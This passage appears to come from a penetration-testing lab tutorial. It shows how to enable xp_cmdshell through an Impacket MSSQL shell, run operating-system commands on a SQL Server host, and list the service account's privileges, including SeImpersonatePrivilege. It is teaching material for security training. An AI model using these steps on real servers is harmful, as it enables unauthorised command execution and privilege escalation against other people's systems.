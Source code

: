 #### Enabling xp\_cmdshell

Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands. We can do this via the Impacket MSSSQL shell by typing `enable_xp_cmdshell`. Typing `help` displays a few other command options.

```shell
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install

```

Note: We don't actually have to type `RECONFIGURE` as Impacket does this for us.

#### Confirming Access

With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```shell
SQL> xp_cmdshell whoami

output

--------------------------------------------------------------------------------

nt service\mssql$sqlexpress01

```

#### Checking Account Privileges

Next, let's check what privileges the service account has been granted.

```shell
SQL> xp_cmdshell whoami /priv

output

--------------------------------------------------------------------------------

PRIVILEGES INFORMATION

----------------------
Privilege Name                Description                               State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
